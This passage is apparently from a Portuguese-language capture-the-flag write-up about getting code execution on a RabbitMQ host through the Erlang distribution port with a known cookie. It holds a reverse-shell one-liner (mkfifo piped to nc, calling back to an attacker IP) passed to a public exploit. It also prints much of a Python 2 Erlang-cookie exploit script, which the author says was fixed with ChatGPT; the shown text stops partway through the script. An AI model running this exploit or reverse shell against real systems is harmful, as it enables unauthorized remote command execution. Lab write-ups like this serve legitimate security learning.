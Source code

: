 O próximo passo Seria listar os usuários no RabbitMQ. Mas ele só funciona com usuário elevado o que nós não temos. Então... a busca continua!

Fiz algumas pesquisas e encontrei um github com uma exploração para ele:

https://github.com/gteissier/erl-matter

Mas quando executei tive um erro.
```bash
python2 er.py 10.10.120.84 25672 wTBuIlKmoBLx183M "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.21.173.102 4421 >/tmp/f"
````
<p align="center"><img src="https://github.com/user-attachments/assets/3924e851-02cd-4850-913f-3eaaaa3efb52" width="1500px"></p>

Pelo que entendi a função recv_reply() esperava exatamente dois termos Erlang na resposta, mas recebeu menos (provavelmente nenhum, ou um só).
Decidi usar o chatGPT ao meu favor e corrigi o código:

````python
#!/usr/bin/env python2

from struct import pack, unpack
from cStringIO import StringIO
from socket import socket, AF_INET, SOCK_STREAM, SHUT_RDWR
from hashlib import md5
from binascii import hexlify, unhexlify
from random import choice
from string import ascii_uppercase
import sys
import argparse
import erlang as erl

def rand_id(n=6):
    return ''.join([choice(ascii_uppercase) for c in range(n)]) + '@nowhere'

parser = argparse.ArgumentParser(description='Execute shell command through Erlang distribution protocol')

parser.add_argument('target', action='store', type=str, help='Erlang node address or FQDN')
parser.add_argument('port', action='store', type=int, help='Erlang node TCP port')
parser.add_argument('cookie', action='store', type=str, help='Erlang cookie')
parser.add_argument('--verbose', action='store_true', help='Output decode Erlang binary term format received')
parser.add_argument('--challenge', type=int, default=0, help='Set client challenge value')
parser.add_argument('cmd', default=None, nargs='?', action='store', type=str, help='Shell command to execute, defaults to interactive shell')

args = parser.parse_args()
name = rand_id()

sock = socket(AF_INET, SOCK_STREAM, 0)
assert(sock)
sock.connect((args.target, args.port))

def send_name(name):
    FLAGS = (
        0x7499c +
        0x01000600 # HANDSHAKE_23|BIT_BINARIES|EXPORT_PTR_TAG
    )
    return pack('!HcQIH', 15 + len(name), 'N', FLAGS, 0xdeadbeef, len(name)) + name

sock.sendall(send_name(name))

data = sock.recv(5)
assert(data == '\x00\x03\x73\x6f\x6b')

````